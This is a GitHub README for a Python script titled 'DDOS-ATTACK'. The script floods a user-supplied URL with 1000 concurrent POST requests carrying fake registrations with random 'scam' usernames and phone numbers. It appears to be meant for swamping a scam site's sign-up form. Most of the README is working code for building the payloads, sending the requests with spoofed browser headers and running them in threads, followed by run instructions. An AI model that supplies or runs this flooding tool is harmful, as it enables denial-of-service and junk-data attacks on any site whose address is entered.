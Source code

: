 # DDOS-ATTACK



This Python script simulates sending multiple POST requests to a target URL with randomly generated payload data. It uses multithreading to send a large number of requests simultaneously.

## Features

- **Random Data Generation**: Generates random usernames and mobile numbers for each request.
- **Multithreading**: Handles concurrent requests using Python's `ThreadPoolExecutor` for efficiency.
- **Data Encoding**: Payload data is both URL-encoded and Base64-encoded before being sent.
- **Custom HTTP Headers**: Each request is sent with specific headers mimicking a real browser request.
- **Progress Tracking**: Displays the number of successful requests in real-time.

## Prerequisites

You need to have Python 3.x installed along with the `requests` library. Install the dependencies using:

```bash
pip install requests
```

## How It Works
Random Username and Mobile Generation: The script generates random usernames (e.g., scamXXXX) and mobile numbers (starting with 98) using the random module.

```bash
def generate_random_username():
    return f"scam{random.randint(1000, 9999)}"

def generate_random_mobile():
    return f"98{random.randint(10000000, 99999999)}"
```
## Payload Creation: The generated data is packed into a dictionary and converted to a JSON string. It is then URL-encoded and Base64-encoded for secure transmission.

```bash
def create_payload():
    payload = {
        "username": generate_random_username(),
        "mobile": generate_random_mobile(),
        "password": "scam",
        "inviter": "114563",
        "machine": "17204265160908750676"
    }
    return payload
```
## Request Sending: Each request is sent with custom headers and the encoded payload. If the request is successful (HTTP 200), the counter of successful requests is incremented.

```bash
def send_request(session, url):
    global successful_requests
    headers = {
        'accept': '*/*',
        'content-type': 'application/x-www-form-urlencoded;charset=UTF-8',
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)',
    }
    payload = create_payload()
    encoded_data = encode_payload(payload)
    data = {'data': encoded_data}
    
    response = session.post(url, headers=headers, data=data)
    if response.status_code == 200:
        with threading.Lock():
            successful_requests += 1
            print(f"Request sent successfully {successful_requests}")
    else:
        print(f"Request failed. Response: {response.status_code}")
```
## Multithreading: The script uses ThreadPoolExecutor to send multiple requests concurrently.


```bash

def threads(num_threads, url):
    with ThreadPoolExecutor(max_workers=num_threads) as executor:
        with requests.Session() as session:
            futures = [executor.submit(send_request, session, url) for _ in range(num_threads)]
            for future in futures:
                future.result()

```
Running the Script
Clone or download the project.

## Install dependencies:

```bash

pip install requests
```
Run the script:

```bash

python scam_request_simulator.py
```
Enter the target URL when prompted. The script will automatically send 1000 requests concurrently to the URL.

## Example
```bash

Enter the desired URL: https://example.com/api/submit
Request sent successfully 1
Request sent successfully 2
Request sent successfully 3
...
